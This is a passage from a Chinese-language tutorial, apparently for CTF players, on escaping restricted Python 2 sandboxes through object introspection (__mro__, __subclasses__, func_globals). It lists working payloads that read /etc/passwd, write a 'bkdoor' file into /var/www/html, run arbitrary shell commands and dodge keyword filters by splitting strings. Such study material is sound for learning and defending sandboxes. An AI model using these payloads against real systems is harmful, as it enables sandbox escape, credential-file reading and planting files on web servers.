 使用 dis 库可以获取函数对应汇编格式的字节码：
```py
import dis

def f(x, y, z):
    a = 'secret'
    b = 2333

print dis.dis(f)
```

### object类基础函数

Python 允许多重继承，即一个子类有多个父类。`__mro__` 属性可以用来查看一个子类所有的父类；`__bases__` 可以获取上一层的继承关系：

```py
class A(object): pass
class B(object): pass
class C(A, B): pass

print C.__bases__
print C.__mro__
print 1..__class__.__bases__
print 1..__class__.__mro__
print ''.__class__.__bases__
print ''.__class__.__mro__
```

python 的 object 类中集成了很多的基础函数, 可以通过创建对象来引用.

寻找特殊模块的方法:`__class__`, 获得当前对象的类;`__bases__`, 列出其基类;`__mro__`, 列出解析方法的调用顺序(即类的继承关系);`__subclasses__()`, 返回子类列表;`__dict__`, 列出当前属性 / 函数的字典; `func_globals`, 返回一个包含函数全局变量的字典引用.

比如 `().__class__.__bases__[0].__subclasses__()[40]` 对应的是 file 类.在 open 等文件操作被限制的情况下可以用下面的方法读取文件内容（`__subclasses__` 即用来查看对象的所有子类；
```py
''.__class__.__mro__[-1].__subclasses__()[40]('/usr/lib/python2.7/os.py').read()
1..__class__.__bases__[0].__subclasses__()[40]('/usr/lib/python2.7/os.py').read()
```

其他的一些执行命令的方法（通过获取其他已经载入了 os 等模块的类进行调用）：
```py
# 执行系统命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].os.system('ls')
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").system("ls")')

# 重新载入__builtin__
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtin__['__import__']("os").system("ls")

# 读文件
().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()

# 写文件
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/bkdoor', 'w').write('123')

# 执行任意命令
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /var/www/html").read()')

# 间接引用,python中原生的import是存在被引用的,只要找到相关对象引用就可以避开沙箱的限制.
print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('c'+'at flag')

# __globals__属性是函数特有的属性,记录当前文件全局变量的值,包括导入的模块.
```